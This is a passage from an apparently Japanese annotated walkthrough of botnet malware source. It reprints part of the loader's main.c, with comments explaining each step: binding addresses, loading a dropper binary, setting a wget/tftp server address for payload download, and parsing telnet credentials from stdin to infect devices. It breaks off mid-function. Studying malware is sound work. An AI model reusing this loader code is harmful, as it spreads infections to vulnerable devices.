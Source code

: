 :::details main.cの続きを表示
```c
int main(int argc, char **args) // loaderプログラムのエントリーポイント
{
    pthread_t stats_thrd;
    uint8_t addrs_len;
    ipv4_t *addrs;
    uint32_t total = 0;
    struct telnet_info info;

#ifdef DEBUG // デバッグ時の挙動
    addrs_len = 1;
    addrs = calloc(4, sizeof (ipv4_t));
    addrs[0] = inet_addr("0.0.0.0");
#else
    addrs_len = 2;
    addrs = calloc(addrs_len, sizeof (ipv4_t));

    addrs[0] = inet_addr("192.168.0.1"); // Address to bind to
    addrs[1] = inet_addr("192.168.1.1"); // Address to bind to
#endif

    if (argc == 2)
    {
        id_tag = args[1];
    }

    if (!binary_init())
    {
        printf("Failed to load bins/dlr.* as dropper\n");
        return 1;
    }

    // ファイルのダウンロード元となるサーバのIPアドレスを指定
    /*                                                                                   wget address           tftp address */
    if ((srv = server_create(sysconf(_SC_NPROCESSORS_ONLN), addrs_len, addrs, 1024 * 64, "100.200.100.100", 80, "100.200.100.100")) == NULL)
    {
        printf("Failed to initialize server. Aborting\n");
        return 1;
    }

    pthread_create(&stats_thrd, NULL, stats_thread, NULL);

    // Read from stdin
    while (TRUE)
    {
        char strbuf[1024];

        if (fgets(strbuf, sizeof (strbuf), stdin) == NULL)
            break;

        util_trim(strbuf);

        if (strlen(strbuf) == 0)
        {
            usleep(10000);
            continue;
        }

        memset(&info, 0, sizeof(struct telnet_info));
        if (telnet_info_parse(strbuf, &info) == NULL)
```